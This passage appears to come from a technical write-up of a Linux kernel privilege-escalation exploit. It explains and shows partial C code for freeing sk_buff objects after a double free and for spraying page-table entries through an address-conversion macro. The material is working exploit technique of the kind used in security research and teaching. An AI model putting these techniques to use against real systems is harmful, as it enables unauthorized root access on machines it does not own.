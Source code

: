 Copy

Codeblock 5.1.2.3.1: The `recv_ipv4_udp()` exploit function written in C, which abstracts away socket code when receiving an UDP packet.

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (trigger doublefree)

	// push N skbs to skb freelist
	for (int i=0; i < CONFIG_SKB_SPRAY_AMOUNT; i++)
	{
		PRINTF_VERBOSE("[*] freeing reserved udp packets to mask corrupted packet... (%d/%d)\n", i, CONFIG_SKB_SPRAY_AMOUNT);
		recv_ipv4_udp(1);
	}

    // ... (rest of the exploit)
}
```

Copy

Codeblock 5.1.2.3.2: Partial code for the exploit written in C, which frees the previously allocated sk\_buff objects.

##### 5.1.2.4. Spraying PTEs

In order to spray PTEs we simply access the virtual memory pages in the VMA we registered earlier. Note that a PTE contains 512 pages, and therefore `0x20'0000` bytes. Hence, we access once every `0x20'0000` bytes a total of `CONFIG_PTE_SPRAY_AMOUNT` times.

In order to simplify this process, I wrote a macro which converts pagetable indices to virtual memory addresses. I.e. `mm->pgd[pud_nr][pmd_nr][pte_nr][page_nr]` is responsible for virtual memory page `PTI_TO_VIRT(pud_nr, pmd_nr, pte_nr, page_nr, 0)`. For example, `mm->pgd[1][0][0][0]` refers to the virtual memory page at `0x80'0000'0000`.

```c
#define _pte_index_to_virt(i) (i << 12)
#define _pmd_index_to_virt(i) (i << 21)
#define _pud_index_to_virt(i) (i << 30)
#define _pgd_index_to_virt(i) (i << 39)
#define PTI_TO_VIRT(pud_index, pmd_index, pte_index, page_index, byte_index) \
	((void*)(_pgd_index_to_virt((unsigned long long)(pud_index)) + _pud_index_to_virt((unsigned long long)(pmd_index)) + \
	_pmd_index_to_virt((unsigned long long)(pte_index)) + _pte_index_to_virt((unsigned long long)(page_index)) + (unsigned long long)(byte_index)))

static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (spray-free skb's)

	// spray-allocate the PTEs from PCP allocator order-0 list
	printf("[*] spraying %d pte's...\n", CONFIG_PTE_SPRAY_AMOUNT);
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT; i++)
		*(char*)PTI_TO_VIRT(2, 0, i, 0, 0) = 0x41;

    // ... (rest of the exploit)
}
```
